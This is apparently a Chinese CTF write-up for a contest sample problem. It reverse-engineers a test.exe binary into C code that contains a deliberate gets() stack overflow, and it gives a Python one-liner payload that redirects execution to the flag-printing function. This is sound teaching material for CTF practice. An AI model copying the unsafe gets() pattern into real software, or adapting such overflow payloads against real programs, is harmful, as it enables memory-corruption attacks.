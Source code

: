 ```yaml
---
title: 中软吉大•问鼎杯决赛样题溢出类
author: Ripples
layout: post
views:
  - 865
categories:
  - CTF
tags:
  - buffer overflow
  - reversing
  - 中软吉大•问鼎杯
---
```

<p style="text-indent: 2em;">
  题目如下：
</p>

<p style="text-indent: 2em;">
  下载test.exe文件，请想方法找到key。<a href="http://sec.hdu.edu.cn/SecTest/files/6.test.exe">文件下载</a>（500分）
</p>

<p style="text-indent: 2em;">
  首先是逆向，仿写程序如下：
</p>

<!--more-->

<pre class="brush:cpp;toolbar:false">const&nbsp;char&nbsp;password[]&nbsp;=&nbsp;"$1$k3Eadsf$blee.9JxQ75A/dSQSxW3v/";

void&nbsp;authorized()
{
&nbsp;&nbsp;&nbsp;&nbsp;printf("V0RGbGFnPQ==");
&nbsp;&nbsp;&nbsp;&nbsp;printf("{");
&nbsp;&nbsp;&nbsp;&nbsp;printf("%sn",&nbsp;md5("kernel32.GetVesion"));
&nbsp;&nbsp;&nbsp;&nbsp;printf("}");
}

void&nbsp;doit()
{
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;s[8];
&nbsp;&nbsp;&nbsp;&nbsp;printf("please&nbsp;input&nbsp;the&nbsp;password:");
&nbsp;&nbsp;&nbsp;&nbsp;gets(s);
&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;(strcmp(md5(s),&nbsp;password)&nbsp;==&nbsp;0)&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;authorized();
&nbsp;&nbsp;&nbsp;&nbsp;}
}

int&nbsp;main()
{
&nbsp;&nbsp;&nbsp;&nbsp;doit();
&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;0;
}</pre>

<p style="text-indent: 2em;">
  其中V0RGbGFnPQ==为WDFlag=的base64加密后的值。
</p>

<p style="text-indent: 2em;">
  程序是逆向清楚了，但是完全不明白这个题目是想让我们干嘛了，难道说key就是kernel32.GetVesion，那直接逆向就得到了，还要溢出干嘛，并且溢出得到的是md5之后的值，要由md5得到kernel32.GetVesion也不容易吧……
</p>

<p style="text-indent: 2em;">
  不管咋样，还是溢出一个吧，s和doit()的返回地址差了8 bytes，authorized的地址0x00401C40，所以溢出如下：
</p>

<pre class="brush:ps;toolbar:false;">python&nbsp;-c&nbsp;"print&nbsp;&#39;a&#39;&nbsp;*&nbsp;8&nbsp;+&nbsp;&#39;x40x1Cx40x00&#39;"&nbsp;&gt;&nbsp;payload
6.test.exe&nbsp;&lt;&nbsp;payload</pre>

<p style="text-indent: 2em;">
  对于这题，只能说完全不知道想干嘛了，反正是样题，就这样吧～～～
</p>

<p style="text-indent: 2em;">
  <img src="http://geekjayvic.sinaapp.com/wp-content/plugins/wp-ueditor2/ueditor/dialogs/attachment/fileTypeImages/icon_rar.gif" style="line-height: 16px; white-space: normal;" /><a href="http://geekjayvic-wordpress.stor.sinaapp.com/uploads/2014/09/6.test_.exe.zip" style="line-height: 16px; white-space: normal;">6.test.exe.zip</a>
</p>
